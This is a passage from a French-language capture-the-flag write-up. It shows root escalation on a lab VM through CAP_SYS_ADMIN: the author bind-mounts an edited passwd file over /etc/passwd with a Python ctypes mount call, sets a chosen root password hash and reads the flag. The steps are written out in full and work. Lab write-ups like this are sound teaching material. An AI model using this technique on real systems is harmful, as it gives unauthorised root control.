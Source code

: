 Mon idée était de créer un FS dans un fichier (`dd` pour créer un fichier vide de 10Mo, `mkfs.ext3` pour le formater) et de placer ensuite un shell setuid root dedans. Plus qu'à copier ensuite le fichier sur la VM et le monter pour obtenir le sésame, sauf que...

`OSError: [Errno 15] Error mounting file.fs (ext3) on /mnt with options 'rw': Block device required`

La fonction de la libc s'attend à recevoir un périphérique et non un fichier...

Du coup je me suis rabbatu sur l'astuce de [Linux Capabilities - HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_admin) qui consiste à binder un fichier `passwd` par dessus le vrai `/etc/passwd` pour se connecter avec l'utilisateur `root` et un mot de passe de notre choix :

```shellsession
cypher@morpheus:~$ cp /etc/passwd .
cypher@morpheus:~$ openssl passwd -1 -salt abc devloop
$1$abc$I96LD.QLSgd3iCCrM7yNv1
cypher@morpheus:~$ vi passwd  # modifier l'entrée root pour remplacer 'x' par le hash
cypher@morpheus:~$ /usr/bin/python3-9
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from ctypes import *
>>> libc = CDLL("libc.so.6")
>>> libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
>>> MS_BIND = 4096
>>> source = b"/home/cypher/passwd"
>>> target = b"/etc/passwd"
>>> filesystemtype = b"none"
>>> options = b"rw"
>>> mountflags = MS_BIND
>>> libc.mount(source, target, filesystemtype, mountflags, options)
0
>>> 
cypher@morpheus:~$ su root
Password: 
root@morpheus:/home/cypher# cd /root
root@morpheus:~# ls
FLAG.txt
root@morpheus:~# cat FLAG.txt 
You've won!

Let's hope Matrix: Resurrections rocks!
```

La requête d'authentification qu'on a redirigée était bien effectuée depuis un docker :

```shellsession
root@morpheus:~# docker ps
CONTAINER ID   IMAGE              COMMAND      CREATED         STATUS        PORTS     NAMES
c08573ce98d3   infinite-request   "/main.sh"   12 months ago   Up 23 hours             infinite-request
root@morpheus:~# docker exec -it c08573ce98d3 /bin/bash
root@c08573ce98d3:/# cat main.sh 
#!/bin/bash

while :
do
   /usr/bin/basic-auth-client
   sleep 60

done
```
